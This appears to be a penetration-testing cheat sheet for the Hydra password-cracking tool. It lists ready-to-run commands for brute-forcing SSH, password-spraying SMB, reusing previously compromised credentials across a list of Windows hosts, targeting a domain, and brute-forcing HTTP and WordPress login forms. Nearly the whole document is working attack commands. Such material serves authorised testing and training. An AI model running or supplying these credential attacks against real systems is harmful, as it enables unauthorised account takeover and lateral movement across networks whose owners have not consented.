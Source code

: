 # Hydra Examples

Single user, multiple passwords targeting SSH on port 2222:
```
hydra -l root -P passwords.txt ssh://1.2.3.4:2222
```
Spray targeting SMB on default port with a single thread:
```
hydra -L users.txt -p password1 -t 1 smb://dc01.domain.local
```
Try a specific username and password across the network:
```
hydra -l bwayne -p P@ssw0rd1! -M windows-hosts.txt smb2
```
Use previously compromised credentials across the network:
```
hydra -C creds.txt -M windows-hosts.txt smb2
```

## Domain Usage

For domain users, target the domain. In order for this attack to work, the domain MUST be specified and the curly braces ``{}`` are required. Additionally, eventhough it is a Domain the option requires ``workgroup:{DOMAINGOESHERE}``

``hydra -C creds.txt -m dc01 smb2 -m workgroup:{DOMAINGOESHERE}``

## HTTP

The syntax is listed below:

``hydra -f -l <user> -P <wordlist> <ip> -t 10 http-post-form "<login-page>:<request-body>:<error-message>"``

This is what an example of a completed attack could look like.

`` hydra -f -l bwayne -P passwords.txt <ip> -t 10 http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"``

For a Wordpress Bruteforce:

``hydra -f -l -P -t 10 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location"``
